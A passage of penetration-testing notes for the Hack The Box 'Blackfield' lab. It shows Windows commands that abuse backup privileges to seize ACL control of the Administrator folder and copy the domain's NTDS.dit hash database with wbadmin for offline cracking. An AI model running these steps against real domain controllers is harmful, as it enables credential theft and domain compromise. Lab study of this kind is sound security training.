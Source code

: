 If attack *Fails* then check the `ServerLevelPluginDll` in DLL file:
```powershell
Get-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Services\DNS\Parameters\ -Name ServerLevelPluginDll
```

## Backup Account
#Blackfield_HTB 

Check the privileges `whoami /priv` and check if the account is in backup acount `net user svc_backup` 
if,
- [ ] It has `SeBackupPrivilege` and `SeRestorePrivilege`

then we can escilate the priivleges of this current account using [Acl-FullControl](https://github.com/Hackplayers/PsCabesha-tools/blob/master/Privesc/Acl-FullControl.ps1) script, can be read in [this](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation/privilege-escalation-abusing-tokens#sebackupprivilege-3-1-4) article

*This script allows user to chnage the ACL for that specified file or Directory*

```bash
# Syntax
Import-Module .\Acl-FullControl.ps1
Acl-FullControl -user [domain]\[user] -path C:\Users\Administrator\


# Example
Acl-FullControl -user blackfield.local\svc_backup -path C:\Users\Administrator\
```


## Steal NTDS.dit
It is very common during penetration tests where domain administrator access has been achieved to extract the password hashes of all the domain users for offline cracking and analysis. These hashes are stored in a database file in the domain controller (NTDS.DIT) with some additional information like group memberships and users.

The NTDS.DIT file is constantly in use by the operating system and therefore cannot be copied directly to another location for extraction of information. This file can be found in the following Windows location:
 `C:\Windows\NTDS\NTDS.dit`

We can steal it by two ways:
- [ ] [diskshadow](https://pentestlab.blog/tag/diskshadow/)
- [ ] wbadmin

<center><i>Idea is to backup the OS then grab the ntds.dit file</i></center>

We can do that in C$ or make NTFS SMB from *ippsec* 

```bash
# chnage dir to SMB C$ 
cd \\10.10.10.192\C$\Windows\Temp
# Make a dir to store
md CFX
# Start the backup via wbadmin
wbadmin start backup -backuptarget:\\10.10.10.192\C$\Windows\Temp\CFX\ -include:C:\Windows\ntds\ntds.dit -quiet

# List items
tree /A /F
```
